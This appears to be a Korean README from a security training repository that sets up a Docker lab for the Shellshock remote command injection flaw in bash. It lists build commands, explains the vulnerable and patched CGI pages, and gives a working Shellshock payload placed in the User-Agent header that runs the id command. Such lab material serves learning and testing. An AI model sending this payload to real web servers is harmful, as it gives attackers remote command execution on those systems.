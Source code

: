 # Shellshock Remote Command Injection
**Contributor** <br>
[이정빈(binsh0501)](https://github.com/binsh0501)

취약한 환경 구축 및 실행
```
docker compose build
docker compose up -d
```
`http://your-ip/` 에 방문하면 두 개의 파일이 표시됩니다.
- safe.cgi
- victim.cgi

safe.cgi 는 최신 버전 bash 에서 생성되었으며 victim.cgi 는 Shellshock에 취약한 bash 4.3 에서 생성된 페이지입니다.
victim.cgi 를 방문할 때 user-agent 문자열에 페이로드를 포함시켜 보낼 수 있고 명령이 성공적으로 실행됩니다.
`() { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id`
![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/af6332d1-1a33-4f48-a678-2b7d67614fa2)

safe.cgi 로 전송된 동일한 요청은 영향을 받지 않습니다.

![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/d732ba21-1cbb-4465-abc9-f0fae90fdb40)
